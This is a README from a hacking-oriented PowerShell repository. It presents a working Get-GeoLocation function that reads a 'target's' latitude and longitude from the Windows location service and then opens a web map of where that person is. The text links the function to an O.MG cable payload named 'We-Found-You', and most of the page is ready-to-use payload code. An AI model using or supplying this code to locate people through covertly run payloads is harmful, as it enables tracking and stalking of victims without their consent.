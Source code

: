 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Get-GeoLocation

## Description

This function will get the geo-location of your target 

## The Function

### [Get-GeoLocation] 

Using the Geo-Watcher function you will get the location of your Target saved to the variable $GL

Longitude and Latitude will be saved individually to the the following variables $Lat and $Lon

```
function Get-GeoLocation{
	try {
	Add-Type -AssemblyName System.Device #Required to access System.Device.Location namespace
	$GeoWatcher = New-Object System.Device.Location.GeoCoordinateWatcher #Create the required object
	$GeoWatcher.Start() #Begin resolving current locaton

	while (($GeoWatcher.Status -ne 'Ready') -and ($GeoWatcher.Permission -ne 'Denied')) {
		Start-Sleep -Milliseconds 100 #Wait for discovery.
	}  

	if ($GeoWatcher.Permission -eq 'Denied'){
		Write-Error 'Access Denied for Location Information'
	} else {
		$GL = $GeoWatcher.Position.Location | Select Latitude,Longitude #Select the relevent results.
		$GL = $GL -split " "
		$Lat = $GL[0].Substring(11) -replace ".$"
		$Lon = $GL[1].Substring(10) -replace ".$" 
		return $Lat, $Lon


	}
	}
    # Write Error is just for troubleshooting
    catch {Write-Error "No coordinates found" 
    return "No Coordinates found"
    -ErrorAction SilentlyContinue
    } 

}

$Lat, $Lon = Get-GeoLocation
```


Going a step further we can use [Start-Process] to open a tab in the browser with a map of their current location

by navigating to the following URL with the $Lon and $Lat variable plugged into it 

```
Start-Process "https://www.latlong.net/c/?lat=$Lat&long=$Lon"
```
That image will look something like this: 

![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG/Payloads/OMG-We-Found-You/location.jpg)

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[We-Found-You](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-We-Found-You)


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  [Project Link](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)
</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)


<p align="right">(<a href="#top">back to top</a>)</p>
